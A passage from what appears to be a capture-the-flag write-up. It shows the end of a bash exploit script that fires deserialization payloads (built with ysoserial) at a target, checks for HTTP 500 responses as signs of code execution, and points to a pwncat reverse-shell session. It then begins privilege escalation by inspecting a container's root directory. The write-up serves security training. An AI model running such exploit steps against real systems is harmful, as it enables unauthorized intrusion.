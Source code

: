 ```bash
        -o /tmp/"$file.response"

    if grep -q "HTTP Status 500" /tmp/"$file.response"; then
        echo "[+] $file triggered, got HTTP 500 (likely executed)"
    else
        echo "[-] $file did not trigger as expected"
    fi

    sleep 1
done

# === Step 7: Cleanup ===
echo "[*] Cleaning up Python server..."
kill $PYTHON_PID

echo "[✔] All done. Check your pwncat session 😎"
```

Make sure you have `ysoserial` and `java 11` installed, above in this writeup you can check how to install them.


Let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---

Strangely for us, we are root user, this likely indicates we're inside of a docker container, let's check:

```
ls -la /
total 0
drwxr-xr-x.   1 root root  40 Aug  9  2023 .
drwxr-xr-x.   1 root root  40 Aug  9  2023 ..
-rwxr-xr-x.   1 root root   0 Aug  9  2023 .dockerenv
lrwxrwxrwx.   1 root root   7 Apr  7  2020 bin -> usr/bin
dr-xr-xr-x.   2 root root   6 Apr  9  2019 boot
drwxr-xr-x.   5 root root 340 Jul 23 19:38 dev
drwxr-xr-x.   1 root root  66 Aug  9  2023 etc
drwxr-xr-x.   2 root root   6 Apr  9  2019 home
lrwxrwxrwx.   1 root root   7 Apr  7  2020 lib -> usr/lib
lrwxrwxrwx.   1 root root   9 Apr  7  2020 lib64 -> usr/lib64
drwxr-xr-x.   2 root root   6 Apr  7  2020 local
drwxr-xr-x.   2 root root   6 Apr  9  2019 media
drwxr-xr-x.   2 root root   6 Apr  9  2019 mnt
drwxr-xr-x.   2 root root   6 Apr  9  2019 opt
dr-xr-xr-x. 113 root root   0 Jul 23 19:38 proc
dr-xr-x---.   1 root root  27 Jul 23 21:31 root
drwxr-xr-x.   1 root root   6 Apr 29  2020 run
lrwxrwxrwx.   1 root root   8 Apr  7  2020 sbin -> usr/sbin
drwxr-xr-x.   2 root root   6 Apr  9  2019 srv
dr-xr-xr-x.  13 root root   0 Jul 23 19:37 sys
drwxrwxrwt.   1 root root 113 Jul 23 21:33 tmp
drwxr-xr-x.   1 root root  19 Apr  7  2020 usr
drwxr-xr-x.   1 root root  52 Apr  7  2020 var
```
